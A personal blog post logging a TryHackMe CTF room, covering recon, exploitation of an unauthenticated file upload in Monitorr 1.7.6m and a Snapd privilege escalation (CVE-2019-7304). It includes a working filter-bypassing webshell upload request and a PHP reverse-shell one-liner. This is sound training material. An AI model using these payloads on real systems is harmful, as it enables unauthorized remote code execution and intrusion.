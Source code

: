 ```yaml
---
layout: post
title: CTF Log - Year of the Jellyfish (THM)
description: A log of how I did the TryHackMe room Year of the Jellyfish by Muirland Oracle
summary: A log of the THM room "Year of the Jellyfish"
tags: ctf log
minute: 5
---
```

<br/>

> {{ page.description }}

<br/>

# Year of the Jellyfish
## Monitorr 1.7.6m Unauthed File Upload
The initial nmap scan returned the following open TCP ports: 21, 22, 80, 443, 8000, 8096. As it would turn out, ports 8000 and 8096 are red herrings and don't lead to any foothold on the box. This is something I was sad to discover, as I was looking forward to exploiting the Jellyfin Media Server.

Looking into the SSL certificate for `robyns-petshop.thm`, I see that it also supports the subdomains `monitorr`, `dev`, and `beta`. 

Navigating to `https://monitorr.robyns-petshop.thm` I find Monitorr v1.7.6m is running. This version has an unauthenticated file upload vulnerability, which can naturally be converted into RCE. 

I also notice that my requests are sending the cookie `isHuman=1`. I change the value to `0` to see what happens and it doesn't like it, accusing me of being a hacker. That's prepostorous of course so I note to send `Cookie: isHuman=1` with all future requests. 

As I'm practicing for the OSWE exam, I choose to build my own exploit code based on the knowledge that the vulnerability relates to the file `/assets/php/upload.php`. 

Lets break down this portion of the `upload.php` file. 
```php
 $target_dir = "../data/usrimg/";
 $target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
 $uploadOk = 1;
 $imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));
 $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
 $rawfile = $_FILES["fileToUpload"]["name"];
 ```

On line 2, the $\_FILES is a superglobal PHP variable that refers to files uploaded through a POST request. 

The first subscript `["fileToUpload"]` refers to the name of the file upload section in the multipart/form-data formatted POST request body. 

The second subscript `["name"]` refers to the actual filename, as it was uploaded. In this case, `name` is a placeholder for the actual filename, not the name of the file. 

Anyway, all this is piece of code is saying, is that it will save the file I send in a POST request to the `upload.php` endpoint.

For a preliminary proof of concept, I make a simple HTML upload form:

 ```html
 <form action="https://monitorr.robyns-petshop.thm/assets/php/upload.php" method="post" enctype="multipart/form-data">
 	<input type="file" name="fileToUpload" />
 	<input type="submit" />
 </form>
 ```

By capturing the request in burp and sending it to repeater, I'm able to easily fuzz and experiment with different payloads. 

Through a bit of experimentation, I determine the following limitations:

- filename extension cannot begin with `.php`
- filename must have an image filetype extension 
- file must begin with magic bytes corresponding to an image file

I'm able to bypass the filters and upload a `.phtml` file which will render and execute PHP code using the following POST request:

```
POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Content-Type: multipart/form-data; boundary=--------------------------190412675211009862293213789695
Content-Length: 350
Cookie: isHuman=1

-----------------------------190412675211009862293213789695
Content-Disposition: form-data; name="fileToUpload"; filename="webshell.png.phtml"
Content-Type: image/png

PNG
<?php passthru($_GET["c"]);
-----------------------------190412675211009862293213789695--
```

Note:

- The filename `webshell.png.phtml` satisfies the image filetype extension requirement while bypassing the `/\.php.*/` pattern matching filter for the extension.
- Some experimentation was needed to determine that the webshell payload `<?php passthru($_GET["c"]);` should not have a closing bracket `>` to properly function.

![Output of 'id' on the webshell page. You can see some of the binary data from the image file being rendered as unicode characters.](/assets/media/yearofthejellyfish/webshell.png)

I URL encoded this PHP oneliner reverse shell `php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'` and caught a shell as `www-data`. 

## CVE-2019-7304
After some enumeration the command `apt list --upgradeable` shows me an outdated version of Snapd: `snapd/bionic-updates 2.49.2+18.04 amd64 [upgradable from: 2.32.5+18.04]`. This version is susceptible to a neat vulnerability, CVE-2019-7304, that involves creating a UbuntuOne account online. 

After creating an account, you provide it with a public SSH key and then use the private counterpart to start a malicious socket connection to the package manager. 

From there you're able to create a new user with root privileges. 

The comments on [this](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv1.py) PoC are well written and teach a good bit about how the exploit functions. 
